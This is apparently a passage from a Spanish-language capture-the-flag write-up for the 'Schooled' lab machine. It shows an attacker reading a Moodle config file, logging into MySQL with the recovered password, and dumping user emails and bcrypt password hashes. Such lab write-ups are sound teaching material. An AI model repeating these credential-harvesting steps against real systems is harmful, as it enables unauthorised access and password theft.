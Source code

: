 ```bash
);

$CFG->wwwroot   = 'http://moodle.schooled.htb/moodle';
$CFG->dataroot  = '/usr/local/www/apache24/moodledata';
$CFG->admin     = 'admin';

$CFG->directorypermissions = 0777;

require_once(__DIR__ . '/lib/setup.php');

// There is no php closing tag in this file,
// it is intentional because it prevents trailing whitespace problems!
[www@Schooled /usr/local/www/apache24/data/moodle]$ 
```

- Nos conectamos.

```bash
[www@Schooled /usr/local/www/apache24/data/moodle]$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 moodle
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 788
Server version: 8.0.23 Source distribution

Copyright (c) 2000, 2021, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

moodle@localhost [moodle]> 
```

```bash
moodle@localhost [moodle]> select username, email, password from mdl_user;
+-------------------+----------------------------------------+--------------------------------------------------------------+
| username          | email                                  | password                                                     |
+-------------------+----------------------------------------+--------------------------------------------------------------+
| guest             | root@localhost                         | $2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2 |
| admin             | jamie@staff.schooled.htb               | $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW |
| bell_oliver89     | bell_oliver89@student.schooled.htb     | $2y$10$N0feGGafBvl.g6LNBKXPVOpkvs8y/axSPyXb46HiFP3C9c42dhvgK |
| orchid_sheila89   | orchid_sheila89@student.schooled.htb   | $2y$10$YMsy0e4x4vKq7HxMsDk.OehnmAcc8tFa0lzj5b1Zc8IhqZx03aryC |
| chard_ellzabeth89 | chard_elizabeth89@student.schooled.htb | $2y$10$D0Hu9XehYbTxNsf/uZrxXeRp/6pmT1/6A.Q2CZhbR26lCPtf68wUC |
| morris_jake89     | morris_jake89@student.schooled.htb     | $2y$10$UieCKjut2IMiglWqRCkSzerF.8AnR8NtOLFmDUcQa90lair7LndRy |
| heel_james89      | heel_james89@student.schooled.htb      | $2y$10$sjk.jJKsfnLG4r5rYytMge4sJWj4ZY8xeWRIrepPJ8oWlynRc9Eim |
| nash_michael89    | nash_michael89@student.schooled.htb    | $2y$10$yShrS/zCD1Uoy0JMZPCDB.saWGsPUrPyQZ4eAS50jGZUp8zsqF8tu |
| singh_rakesh89    | singh_rakesh89@student.schooled.htb    | $2y$10$Yd52KrjMGJwPUeDQRU7wNu6xjTMobTWq3eEzMWeA2KsfAPAcHSUPu |
| taint_marcus89    | taint_marcus89@student.schooled.htb    | $2y$10$kFO4L15Elng2Z2R4cCkbdOHyh5rKwnG4csQ0gWUeu2bJGt4Mxswoa |
```